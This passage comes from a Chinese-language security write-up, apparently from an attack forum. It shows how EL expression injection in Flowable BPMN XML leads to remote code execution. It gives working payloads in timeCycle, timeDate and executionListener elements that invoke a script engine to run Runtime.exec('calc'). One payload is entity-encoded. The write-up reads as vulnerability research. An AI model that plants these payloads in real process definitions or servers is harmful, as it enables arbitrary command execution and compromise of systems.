 对应 在 Flowable Web Modeler (这个是Flowable官方提供的一个Web页面，方便自定义流程)中的位置  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-6736851efdc7849a682d3bc9c2f3b5a627682c56.png)

#### `<timeCycle>`

`<timeCycle>` 标签可以用于定义一个周期性的定时器，表达式可以动态生成一个周期表达式

```xml
<!-- timeCycle直接使用function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\'calc\') -->
<!-- 会抛出类型错误 -->
<timerEventDefinition>
  <timeCycle>
    ${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval('function test(){return java.lang.Runtime.getRuntime().exec(\'calc\')};test()')}
  </timeCycle>
</timerEventDefinition>
```

对应 在 Flowable Web Modeler 中的位置  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-2e4a40b3fc1a283b89436a15040d7082ee29c0a8.png)

#### `<timeDate>`

`<timeDate>` 标签可以用于指定一个具体的触发日期时间。

```xml
<timerEventDefinition>
    <timeDate>
        ${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval('function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\'calc\')')}
    </timeDate>
</timerEventDefinition>
```

对应 在 Flowable Web Modeler 中的位置  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-a8e198f5d269bb7d76215c366be935b202096ab8.png)

### `<extensionElements>`

该标签是 BPMN 2.0 规范中的标准标签，允许在标准 BPMN 元素上添加自定义的扩展。Flowable 通过这个标签支持许多自定义元素，例如监听器、字段、脚本等。

#### `<flowable:executionListener>`

是 Flowable 的扩展标签，允许你在流程的某些执行点（如开始、结束、任务到达时等）触发自定义代码。这个标签通常用于监听并处理流程中的执行事件，定义特定的业务逻辑。

```xml
<flowable:executionListener event="start" expression="${&#34;&#34;.getClass().forName(&#34;javax.script.ScriptEngineManager&#34;).newInstance().getEngineByName(&#34;js&#34;).eval('function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\'calc\')')}">
</flowable:executionListener>
```

对应 在 Flowable Web Modeler 中的位置

